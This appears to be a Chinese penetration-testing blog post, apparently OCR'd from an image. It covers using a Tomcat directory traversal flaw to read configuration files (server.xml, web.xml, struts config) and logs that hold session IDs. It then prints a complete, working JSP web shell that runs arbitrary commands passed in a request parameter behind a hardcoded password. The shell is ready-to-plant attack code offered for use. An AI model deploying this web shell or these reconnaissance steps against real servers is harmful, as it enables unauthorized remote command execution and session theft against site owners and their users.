 ```yaml
---
layout: post
title: 最近的两次渗透经历
categories: 渗透经验
tags: 渗透测试
---
```


## tomcat站点目录便利漏洞的利用
**利用配置文件。**

* 全局配置文件`server.xml`。存放在tomcat目录下conf文件夹，主要是`server.xml`，关注host标签、host中得context标签。
* 站点配置文件`web.xml`。全局的web.xml很少有敏感信息，主要关注`webapps/app/WEB-INF/web.xml`，这个配置文件有关于servlet的信息
* 其他配置文件，例如`struct-config.xml`，有关于bean的详细信息

**利用日志文件。**

* 日志文件的格式和存储目录在`servlet.xml`文件中配置
* 日志文件中可能有网站打包的jar文件的文件名
* 日志文件可能有sessionid等信息

##JSP小马利用方式

**JSP小马**

{% highlight java %}
<%   
     if("password".equals(request.getParameter("pwd"))){       
          java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
          int a = -1;
          byte[] b = new byte[2048];
          out.print("<pre>");
          while((a=in.read(b))!=-1){
               out.println(new String(b));       
          }
          out.print("</pre>");   
}%>
{% endhighlight %}